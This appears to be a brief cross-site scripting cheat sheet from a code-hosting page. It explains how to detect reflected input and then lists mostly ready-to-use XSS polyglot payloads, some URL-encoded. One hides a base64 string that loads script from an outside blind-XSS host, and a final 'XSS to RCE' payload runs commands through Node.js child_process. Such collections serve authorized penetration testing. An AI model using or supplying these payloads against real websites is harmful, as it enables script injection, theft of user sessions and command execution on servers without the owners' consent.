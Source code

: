# XSS

### Scope:
```
GET|POST parameters
Path
```

### Detect reflections

past some keyword for detecting reflections in response like ```PayloadHere``` and send request.
search in response keyword ```PayloadHere```
if keyword reflected than past xss payloads.

### XSS Polyglots:
```
%3C!%27/*!%22/*!\%27/*\%22/* — !%3E%3C/Title/%3C/script/%3E%3CInput%20Type=Text%20Style=position:fixed;top:0;left:0;font-size:999px%20*/;%20Onmouseenter=confirm`1`%20//%3E#
```
```
<!'/*!”/*!\'/*\"/* — !></Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`1` //>#
```
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/ — !>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>” ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’ →” >
"></script><script>alert(1)</script>”><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnhzcy54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
```
```
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))// →</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
### From XSS to RCE

From xss to rce payload for nodejs application

```
<TagName EventHandler="require('child_process').execSync('calc.exe')">
```
